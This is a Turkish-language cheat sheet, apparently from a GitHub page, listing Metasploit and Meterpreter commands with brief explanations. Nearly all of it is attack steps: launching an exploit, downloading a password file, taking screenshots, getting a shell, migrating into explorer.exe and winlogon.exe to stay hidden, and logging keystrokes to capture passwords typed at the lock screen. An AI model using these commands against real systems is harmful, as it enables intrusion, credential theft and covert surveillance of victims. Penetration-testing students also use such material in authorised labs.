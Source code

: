     ~~> set LHOST 172.16.193.151
    
    ~~> exploit
    
  **- Meterpreter komutları:**
    
    M> help
    
    M> pwd
    
    M> cd "C:\\Docume~1"
   
    M> pwd
    
    M> ls
    
    M> mkdir meterpreter
   
    M> rmdir meterpreter
   
    M> download password.txt (bulunduğu dizindeki password.txt dosyasını indirir)
   
    M> screenshot (girdiğimiz sistemin ekran görüntüsünü alır)
    
    M> upload (dosya upload edebiliriz)
   
    M> shell (komut satırına geçiş yapar)
   
    \>> ctrl+z (komut sistemini arka plana atıp meterpreter'e geri dönüş yapar)
   
    M> channel -l (açılan kanalları görüntüler)
   
    M> channel -i 2 (kanala geçiş yapar)
    
    \>> exit (shell oturumunu kapatır, meterpreter'e döner)
    
    M> ps (process'leri görüntüler)
    
    M> kill 3512 (ID'si 3512 olan process'i sonlandırır)
    
    M> sysinfo (sistemle ilgili özet bilgi verir)
    
    M> getuid (mevcut kullanıcı adını döndürür)
    
    M> getprivs (yetkilerimizi listeler)
  
    M> ps (process'leri listeler)
    
    M> migrate 3792 (3792 ID'li process'e geçiş yapar, eğer 3792 sonlandırılırsa session kapanır. Bu komutu kendimizi daha sağlam bir yere almak için kullanırız.)
    
    M> getpid (şu anda sömürmekte olduğumuz process ID'sini döner.)
    
    M> arp (arp tablosunu görüntüler)
    
    M> route (route tablosunu görüntüler)
   
    M> migrate 2968 (explorer.exe)
   
    M> keyscan_start (çalışması için sömürdüğümüz process'in tuşları kaydeden bir process olması gerek, örnek: explorer.exe)
    
    M> keyscan_dump (basılan tuşları görüntüler)
   
    M> migrate 432 (ekran kilitliyken girilen şifreleri alabilmek için winlogon.exe process'ine geçiş yapmamız gerekir)
   